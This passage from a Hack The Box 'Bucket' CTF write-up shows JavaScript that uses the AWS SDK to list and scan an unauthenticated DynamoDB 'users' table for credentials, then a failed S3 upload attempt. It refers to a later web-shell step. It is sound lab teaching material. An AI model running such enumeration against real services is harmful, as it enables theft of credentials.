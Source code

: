 ```
{"message":"Network Failure","code":"NetworkingError","time":"2020-12-15T16:25:33.070Z","region":"us-west-2","hostname":"bucket.htb","retryable":true}
```

So I switched to this code, using `http://s3.bucket.htb` instead:

```javascript
var dynamodb = new AWS.DynamoDB({endpoint: '[http://s3.bucket.htb'](http://s3.bucket.htb') });  
var param = {};  
dynamodb.listTables(param, function (err, data) {  
if (err) console.log(err, err.stack); // an error occurred  
else console.log(data); // successful response  
});
```

This lets us enumerate the tables in the database!

![[Pasted image 20210428134850.png]]

Now we can scan the table. I used this code:

```javascript
var dynamodb = new AWS.DynamoDB({endpoint: 'http://s3.bucket.htb' });
var param = {
    TableName: 'users',
    Limit: 10
};
dynamodb.scan(param, function(err, data) {
    if (err) ppJson(err); // an error occurred
    else console.log(data); // successful response
});
```

Which outputted some usernames and passwords! I took note of these in [[Writeups/Hack the Box/Boxes/Bucket/1 - Loot|Loot]]

![[Pasted image 20210428135105.png]]

We don't have anywhere to use these creds right now. So I figured the next step was to try and attack the S3 Bucket instead.

### Attacking the Bucket

I wondered if the credentials were for the AWS CLI. I installed it with:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket]
└─$ sudo apt install awscli
```

I will again briefly detail my thought process here, but you can skip to the [[Writeups/Hack the Box/Boxes/Bucket/10 - Website#Uploading a Web Shell|working solution]] if you like.

I then tried a basic S3 command to upload a small `.html` file to the bucket and see if I could hit it.

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket]
└─$ aws s3 cp ello.html http://s3.bucket.htb

usage: aws s3 cp <LocalPath> <S3Uri> or <S3Uri> <LocalPath> or <S3Uri> <S3Uri>
Error: Invalid argument type
```
